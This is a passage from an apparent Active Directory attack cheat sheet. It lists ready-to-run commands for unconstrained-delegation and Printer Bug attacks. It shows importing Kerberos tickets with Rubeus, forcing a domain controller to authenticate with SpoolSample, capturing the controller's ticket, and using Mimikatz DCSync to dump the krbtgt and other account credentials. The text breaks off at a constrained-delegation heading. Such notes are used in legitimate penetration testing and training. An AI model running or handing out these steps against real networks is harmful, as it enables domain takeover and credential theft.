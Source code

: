 ````

```
.\Rubeus.exe ptt /ticket:<TICKET FILE>
```

#### Check access on target machine
```
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Printer bug
- A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.
- A way to force a TGT of DC on the target machine
- https://github.com/leechristensen/SpoolSample
#### Check if spool server is running
```
#Edit IP at the bottom
spoolerscan.ps1
```

```
ls \\<DC>\pipe\spoolss
```

#### Listen with rubeus for incoming tickets
- Requires running as system!
- https://powershell-guru.com/powershell-tip-53-run-powershell-as-system/
```
.\rubeus.exe monitor /interval:5
```

#### Force authentication of the DC
```
.\SpoolSample.exe <DC FQDN> <TARGET SERVER WITH DELEGATION>
```

#### Copy, save and trim the ticket
```
cat dc_ticket.txt | tr -d "\n" | tr -d " "
```

#### Import the ticket
- Paste the ticket from previous command
```
.\Rubeus.exe ptt /ticket:<TICKET>
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Constrained Delegation
- To execute attack owning the user or server with constrained delegation is required.
#### Enumerate users with contrained delegation enabled
- Use the ```-domain``` flag to check for other domains
```
````